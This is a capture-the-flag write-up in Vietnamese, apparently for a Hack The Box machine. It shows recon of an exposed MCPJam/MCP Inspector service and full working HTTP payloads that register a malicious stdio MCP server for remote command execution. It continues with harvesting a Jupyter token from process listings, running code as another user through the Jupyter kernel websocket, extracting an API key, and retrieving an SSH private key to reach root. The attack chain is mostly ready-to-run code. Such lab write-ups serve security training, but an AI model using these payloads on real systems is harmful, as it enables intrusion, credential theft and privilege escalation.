# Recon 
- Scan port : `nmap -Pn -sS --min-rate 3000 -p- 10.129.4.84`

    
- Scan service : `nmap -Pn -sCV -p22,80 10.129.4.84` 

    
- Nhận thấy redirect về `http://devhub.htb/` ; tiến hành test web với host header 
- Thông tin nhận về thông tin :
    - `MCP Inspector` - Port `6274`
    - `Jupyter` localhost `8888`

    
- truy cập vào `http://10.129.4.84:6274/`

    

# Xác định lỗ hỏng trên MCPJam
- tải source js về : `curl -s http://10.129.4.84:6274/assets/index-DRYhT9Xb.js -o mcpjam.js`
- Trong source có đoạn xủ lí e : 

    
- Trong Add MCP Server để xem e xử lí như nào :

    
- Từ đó có thể suy ra payload 
```json
{
  "serverId": "...",
  "serverConfig": {
    "name": "...",
    "type": "stdio",
    "command": "...",
    "args": [],
    "env": {},
    "requestTimeout": 10000
  }
}
```

# Đăng kí MCP tự tạo để lấy RCE

- Đăng kí MCP như sau 

    
```py
POST /api/mcp/connect HTTP/1.1

Host: 10.129.4.84:6274

Content-Type: application/json

Connection: close

Content-Length: 1557


{
  "serverId": "pyexec3",
  "serverConfig": {
    "name": "pyexec3",
    "type": "stdio",
    "command": "python3",
    "args": [
      "-u",
      "-c",
      "import sys,json,subprocess\n\ndef send(o):\n    sys.stdout.write(json.dumps(o,separators=(\",\",\":\"))+\"\\n\")\n    sys.stdout.flush()\n\nfor line in sys.stdin:\n    try:\n        msg=json.loads(line)\n    except Exception:\n        continue\n    mid=msg.get(\"id\")\n    method=msg.get(\"method\")\n    if method==\"initialize\":\n        send({\"jsonrpc\":\"2.0\",\"id\":mid,\"result\":{\"protocolVersion\":\"2025-06-18\",\"capabilities\":{\"tools\":{}},\"serverInfo\":{\"name\":\"pyexec3\",\"version\":\"1.0.0\"}}})\n    elif method==\"tools/list\":\n        send({\"jsonrpc\":\"2.0\",\"id\":mid,\"result\":{\"tools\":[{\"name\":\"run\",\"description\":\"run shell command\",\"inputSchema\":{\"type\":\"object\",\"properties\":{\"cmd\":{\"type\":\"string\"}},\"required\":[\"cmd\"]}}]}})\n    elif method==\"tools/call\":\n        args=msg.get(\"params\",{}).get(\"arguments\") or {}\n        cmd=args.get(\"cmd\",\"id\")\n        try:\n            p=subprocess.run(cmd,shell=True,capture_output=True,text=True,timeout=20)\n            out=p.stdout+p.stderr\n        except Exception as e:\n            out=str(e)\n        send({\"jsonrpc\":\"2.0\",\"id\":mid,\"result\":{\"content\":[{\"type\":\"text\",\"text\":out[:8000]}]}})\n    elif mid is not None:\n        send({\"jsonrpc\":\"2.0\",\"id\":mid,\"result\":{}})\n"
    ],
    "env": {},
    "requestTimeout": 20000
  }
}
```

- Test command

    

- Đọc flag với `mcp-dev` tuy nhiên không có

    

- Kiểm tra user khác có trên máy phát hiện có thêm `analyst`

    

# Lấy flag user bằng cách pivot sang user khác 
- Enumerate thông tin 
```json
POST /api/mcp/tools/execute HTTP/1.1
Host: 10.129.4.84:6274
Content-Type: application/json
Connection: close
Content-Length: 156
{
  "serverId": "pyexec3",
  "toolName": "run",
  "parameters": {
    "cmd": "ps fauxww | egrep -i \"jupyter|python|5000|8888\" | grep -v egrep"
  }
}
```

- Lấy được
    - Jupyter token: `a7f3b2c9d8e1f4a5b6c7d8e9f0a1b2c3d4e5f6a7`
    - Kernel id: `de456134-0e52-4794-8dff-a325734a098b`

    

- Dùng token để vào trang của analyst 
```json
POST /api/mcp/tools/execute HTTP/1.1
Host: 10.129.4.84:6274
Content-Type: application/json
Connection: close
Content-Length: 184
{
  "serverId": "pyexec3",
  "toolName": "run",
  "parameters": {
    "cmd": "curl -s \"http://127.0.0.1:8888/api/contents?token=a7f3b2c9d8e1f4a5b6c7d8e9f0a1b2c3d4e5f6a7\""
  }
}
```

    

- Dùng kernel id dã có sẵn để đọc user.txt với quyền analyst

```json
POST /api/mcp/tools/execute HTTP/1.1
Host: 10.129.4.84:6274
Content-Type: application/json
Connection: close
{
  "serverId": "pyexec3",
  "toolName": "run",
  "parameters": {
    "cmd": "node - <<\"NODE\"\nconst kernel=\"de456134-0e52-4794-8dff-a325734a098b\";\nconst token=\"a7f3b2c9d8e1f4a5b6c7d8e9f0a1b2c3d4e5f6a7\";\nconst sid=\"sess-\"+Math.random().toString(36).slice(2);\nconst url=`ws://127.0.0.1:8888/api/kernels/${kernel}/channels?session_id=${sid}&token=${token}`;\nconst ws=new WebSocket(url);\nconst msgid=\"msg-\"+Math.random().toString(36).slice(2);\nconst code=`import subprocess\np = subprocess.run(\"id; whoami; cat /home/analyst/user.txt 2>/dev/null\", shell=True, capture_output=True, text=True)\nout = p.stdout + p.stderr\nout`;\nws.onopen=()=>{ ws.send(JSON.stringify({header:{msg_id:msgid,msg_type:\"execute_request\",username:\"analyst\",session:sid,date:new Date().toISOString(),version:\"5.3\"},parent_header:{},metadata:{},content:{code,silent:false,store_history:false,user_expressions:{},allow_stdin:false,stop_on_error:true},channel:\"shell\",buffers:[]})); };\nws.onmessage=(ev)=>{ const m=JSON.parse(ev.data.toString()); if(m.content?.data?.[\"text/plain\"]) console.log(m.content.data[\"text/plain\"]); if(m.msg_type===\"status\"&&m.content.execution_state===\"idle\") setTimeout(()=>ws.close(),500); };\nsetTimeout(()=>{try{ws.close();}catch{}},15000);\nNODE"

  }
}
```

    
- user: `9599abcca7ecfc510228348e7d08ef1e`

# Tìm dịch vụ với analyst 

- Phát hiện dịch vụ OPSMCP 

    

```json
POST /api/mcp/tools/execute HTTP/1.1
Host: 10.129.4.84:6274
Content-Type: application/json
Connection: close
Content-Length: 1348
{
  "serverId": "pyexec3",
  "toolName": "run",
  "parameters": {
    "cmd": "node - <<\"NODE\"\nconst kernel=\"de456134-0e52-4794-8dff-a325734a098b\";\nconst token=\"a7f3b2c9d8e1f4a5b6c7d8e9f0a1b2c3d4e5f6a7\";\nconst sid=\"sess-\"+Math.random().toString(36).slice(2);\nconst url=`ws://127.0.0.1:8888/api/kernels/${kernel}/channels?session_id=${sid}&token=${token}`;\nconst ws=new WebSocket(url);\nconst msgid=\"msg-\"+Math.random().toString(36).slice(2);\nconst code=`import subprocess\np = subprocess.run(\"id; whoami; ss -lntp 2>/dev/null; ps fauxww | egrep 'jupyter|opsmcp|nginx|python|node' | grep -v egrep\", shell=True, capture_output=True, text=True)\nout = p.stdout + p.stderr\nout`;\nws.onopen=()=>{ ws.send(JSON.stringify({header:{msg_id:msgid,msg_type:\"execute_request\",username:\"analyst\",session:sid,date:new Date().toISOString(),version:\"5.3\"},parent_header:{},metadata:{},content:{code,silent:false,store_history:false,user_expressions:{},allow_stdin:false,stop_on_error:true},channel:\"shell\",buffers:[]})); };\nws.onmessage=(ev)=>{ const m=JSON.parse(ev.data.toString()); if(m.content?.data?.[\"text/plain\"]) console.log(m.content.data[\"text/plain\"]); if(m.msg_type===\"status\"&&m.content.execution_state===\"idle\") setTimeout(()=>ws.close(),500); };\nsetTimeout(()=>{try{ws.close();}catch{}},15000);\nNODE"
  }
}
```

- Đọc source code và lấy được : VALID_API_KEY = `opsmcp_secret_key_4f5a6b7c8d9e0f1a`

    

# SSH vào máy chủ và lấy flag root
- Ngay khi có api key lợi dụng 1 api nội bộ `tool/call` để lấy được private key 

    

- Ssh trực tiếp vào máy chủ

    

- flag root : `a96b230e533b7cf25fc18d9c78a736f7`